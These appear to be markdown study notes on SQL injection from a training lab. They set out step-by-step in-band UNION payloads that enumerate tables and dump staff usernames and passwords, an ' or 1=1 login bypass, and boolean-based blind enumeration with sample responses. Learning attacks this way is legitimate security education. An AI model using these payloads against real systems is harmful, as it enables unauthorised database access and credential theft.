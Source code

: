 # SQL Injection

![](Pasted%20image%2020241116223725.png)

# Introduction

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# Example

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# SQL Injection Snippets

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

